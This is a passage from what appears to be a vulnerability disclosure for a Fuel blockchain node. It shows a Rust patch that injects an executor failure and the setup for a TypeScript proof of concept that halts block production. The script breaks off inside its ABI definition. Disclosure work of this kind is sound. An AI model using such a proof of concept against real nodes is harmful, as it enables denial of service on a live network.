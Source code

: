 ```rust
                .write_transaction()
                .with_policy(ConflictPolicy::Overwrite);
            let tx_id = tx.id(&self.consensus_params.chain_id());
            let tx = self.execute_transaction(
                tx,
                &tx_id,
                &block.header,
                coinbase_contract_id,
                gas_price,
                execution_data,
                &mut tx_st_transaction,
                memory,
            )?;
            tx_st_transaction.commit()?;
            tx
        };

        block.transactions.push(tx);
        execution_data.tx_count = tx_count
            .checked_add(1)
            .ok_or(ExecutorError::TooManyTransactions)?;

        if block.transactions.len() > 2 { // [1]
            Err(ExecutorError::TooManyTransactions)? // [2]
        } // [3]

        Ok(())
    }
```

This will simulate execution failing.

After these modifications please run the fuel node with the `--poa-interval-period 5sec` parameter, ensuring an activated timer.

With the local node running, execute the following script which does the following:

* create and compile a typescript file `poc_halting.sh` containing the PoC
* run the typescript script which submits two transactions, causing block production to stop completely

In order to ensure a working PoC please ensure the following:

* have `tsc` installed in order to compile typescript
* have `node` installed in order to run the resulting `.js` file

`PoC`:

```sh
echo """
import { JsonAbi, Script, Provider, WalletUnlocked, Account, Predicate, Wallet, CoinQuantityLike, coinQuantityfy, EstimatedTxParams, BN, Coin, AbstractAddress, Address, Contract, ScriptTransactionRequest } from 'fuels';

const abi: JsonAbi = {
  'encoding': '1',
  'types': [
    {
      'typeId': 0,
      'type': '()',
      'components': [],
      'typeParameters': null
    }
  ],
  'functions': [
    {
      'inputs': [],
```